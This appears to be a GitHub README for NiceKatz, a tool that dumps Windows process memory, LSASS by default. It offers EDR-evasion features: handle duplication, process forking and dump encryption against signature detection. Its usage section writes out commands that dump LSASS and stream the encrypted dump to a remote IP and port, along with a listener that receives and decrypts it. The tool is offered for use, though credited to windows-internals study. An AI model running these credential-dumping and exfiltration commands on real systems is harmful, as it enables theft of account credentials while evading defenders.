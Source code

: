# NiceKatz - a nice process dumping tool

![🍉](https://cdn.emojidex.com/emoji/seal/watermelon.png "watermelon")

NiceKatz is a process dumping tool which was developed as part of my software development and windows internals studies. <br />
This tool lets you dump the memory of windows process's in couple of different ways and avoids calling suspicious APIs. <br />

It is well known already that most of the modern security solutions will block any API calls such as OpenProcess that targets sensetive processes(eg. lsass.exe), other then that, direct memory reading of such processes will also flag modern security solutions. If this is not enough, there are also some vendors that detects the signature of the dump file itself, so even if the handle to the process is retrieved, and the memory reading has completed, all of the work will be thrown away once the dump file touches the disk.. 

NiceKatz evades all of the problems mentioned above, and provides more then one way to dump the processe's memory. 

## Features
- Uses handle duplication to avoid direct OpenProcess to the target
- Supports process forking to avoid direct memory reading of the target process
- Can dump ANY process, not only LSASS
- Supports two different dump modes - MiniDumpWriteDump and SilentProcessExit
- Implements MiniDumpWriteDump callback to capture MiniDump information in memory
- Supports dump encryption to avoid dmp file signatures from being detected
- Supports sending dump file remotely without touching the disk
- Cleanup is performed for any OS configuration change
- Provides a controller that can be used as a listener and a decryptor of dump files generated by NiceKatz

## Build instructions
A full visual studio solution is provided, just load it to visual studio and build.<br />
The right build to use is "Release x64". Do not build as x86, it is not supported by this tool. <br />
The build will result in two files - NiceKatz.exe and NiceKatzController.exe <br />

## NiceKatz
This is is the program that performs the actual process dumping, you can use it to dump any process, in two different modes. <br />
You can use  this program to dump processes, encrypt the dumped process, send it remotlely or write it to disk.  <br />
#### NiceKatz usage:
```
NiceKatz v0.1
        Alon Leviev(@0xDeku)

Mandatory args:
-m Process dump method
        1 = Dump target process by using MiniDumpWriteDump
        2 = Dump target process by using SilentProcessExit(Does not support -r and -e ATM)

Other args:
-e Encrypt output file
-r Send dmp remotly without touching the disk
        <IP_ADDR> The ip address to send the dump to
        <PORT> The port of which to connect to
-p Target process id to dump(Default: LSASS pid)

Examples:
- Dump lsass by using MiniDumpWriteDump and ecrypt the output file:
        NiceKatz.exe -m 1 -e
- Dump PID 1234 by using SilentProcessExit method:
        NiceKatz.exe -m 2 -p 1234
- Dump PID 5678 by using MiniDumpWriteDump, encrypt the dump in memory and send remotly:
        NiceKatz.exe -m 1 -p 5678 -r 10.10.10.10:8888 -e
```

## NiceKatzController
This is the program which you can use to listen for connections arriving from NiceKatz.exe. 
The controller has more capabilities such as: decrypting the process dump stream recived from the socket as well as decrypting a given file genereated by NiceKatz.exe

#### NiceKatzController usage:
```
NiceKatzController
        Alon Leviev(@0xDeku)

Arguments:
-l Listen for connections from remote target machine
-d Decrypt the dump file when recived from the target
-df Decrypt an encrypted dump file by path(Not supported with other arguments)

Examples:
- Listen for connections from remote target and decrypt the recived dump file:
        NiceKatzController.exe -l -d
- Decrypt an encrypted dump file by its path:
        NiceKatzController.exe -df C:\Temp\dump.dmp
```

## Demo

![20220712_215439 (1)](https://user-images.githubusercontent.com/93016131/178572628-bd8985f9-8516-419e-b06a-393b65269791.gif)


## Future development
There is a list of TODOs and I will continue developing this tool in the future.
If you encounter a bug, or want to ask for aditional features, just open an issue on this git repo. 

## Credits 
- [@_RastaMouse](https://twitter.com/_rastamouse) for his [article](https://rastamouse.me/duplicating-handles-in-csharp/) on handle duplication <br />
- [Asaf Gilboa](https://mobile.twitter.com/asaf_gilboa) for [Lsass Memory Dumps are Stealthier than Ever Before - Part 2](https://www.deepinstinct.com/blog/lsass-memory-dumps-are-stealthier-than-ever-before-part-2) <br />
- [m0rv4i](https://twitter.com/m0rv4i) for implmenting MiniDumpWriteDump callback in c# at [SafetyDump](https://github.com/m0rv4i/SafetyDump)<br />
- [Bill Demirkapi](https://twitter.com/BillDemirkapi) for [process forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
